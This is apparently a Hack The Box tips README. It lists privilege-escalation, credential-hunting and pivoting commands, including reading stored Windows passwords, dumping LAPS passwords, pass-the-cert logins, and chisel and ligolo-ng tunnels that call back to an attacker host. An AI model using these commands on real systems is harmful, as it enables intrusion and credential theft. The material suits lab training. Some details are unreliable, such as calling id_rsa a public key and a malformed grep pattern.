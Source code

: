 # HTB-tips

## Windows Privilege Escalation - Registry Autologon
Sometimes windows stores credentials in plaintext (DefaultDomainName, DefaultUserName,DefaultPassword)

EXAMPLE USAGE:
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```


## Windows Privilege Escalation - Powershell history file
Windows stores the powershell history in a file in the psreadlinefolder.(just like linux stores it under the .bash_history).
```
more C:\users\adam\appdata\roaming\microsoft\windows\powershell\psreadline\*.txt
```

## Linux Privilege Escalation - Dcoker Container Mounted files
A docker conatiner is mounted to a home directory. The docker connects the containers file system to the hosts file system -- live. So any changes in the host file system also affects in the docker and vice versa.If the we get root on the docker conatiner(by default we are root inside the docker) this can result in easy priv esc by setting up the setuid to a any binary.

## Linux Privilege Escalation - Port Forwarding using Chisel
Attacker Machine
```bash
chisel server -p ATTACKER_PORT --reverse
```
Target Machine
```bash
chisel client ATTACKER_IP:ATTACKER_PORT R:LOCAL_PORT:127.0.0.1:PORT_RUNNING_ON_TARGET_MACHINE
```

## Windows Exploitation - Pass the Cert
If we get a .pfx file we can get the cert.pem and key.pem from the .pfx file and try to logging in the machine if winrm service is enabled using pass the cert attack.
Extracting the key and cert
```
openssl pkcs12  -in legacyy_dev_auth.pfx -info -nokeys -out cert.pem
openssl pkcs12  -in legacyy_dev_auth.pfx -info -nocerts -nodes -out key.pem
```
After getting the cert and the key we can log-in
```
evil-winrm -i IP -S -k key.pem -c cert.pem
```

## Windows Credentail Hunting - Member of LAPS Group
LAPS is used to store administrator passwords which are complex and randomized, We can use a lapsdumper from github to extract the administrator password
```
lapsdumper.py -u user -p password -d domain.local
```

## Linux Privilege escalation - ENV variables
Alwyas check for env varibles specially if landed in a docker environment, or any container.
```
env
```

## Linux Privilege escalation - Backup Files
Check for backup files if have permissions in the source code directory or part of any group like sysadm, adm(4)
```
find /path/to/source/code 2>/dev/null | grep -i "*.bak"
```

## Port forwarding Using ssh
If we have a user with ssh creds or public key(id_rsa) we can login and start a local port forwarding, which will forward the ports of the machine to out local machine and we will be able to view the service running on the machine in their internal nertwork
```
ssh -L machineport:ourmachineip:ourmachineport user@machine.local
```

## Exploiatation - Extract username from a public ssh key (id_rsa)
If we got a users id_rsa ssh key and we dont know the user which the public key is of, we can extract the username from the key by decrypting the keys and reading the hex dump, at the very end we can find the user and the machine which the key belongs to.
```
cat id_rsa | base64 -d | xxd
```

## Pivoting into a network - Ligolo-ng
Suppose we got a rce on a machine which is faced towards internet and also have a internal network (ex; 192.168.2.0/24) and we want to connect to that machine to enum further.

Attacker machine(kali linux)
```
sudo ip tuntap add user <user> mode tun ligolo
sudo ip link set ligolo up
sudo ip route del 192.168.2.0/24 dev ligolo
```
```
./proxy --selfcert 
```
```
ligolo> session 1
ligolo> start
```

Victim machine (ubnutu)
```
./agent -connect <kaliip:kaliport> --ignore-cert
```
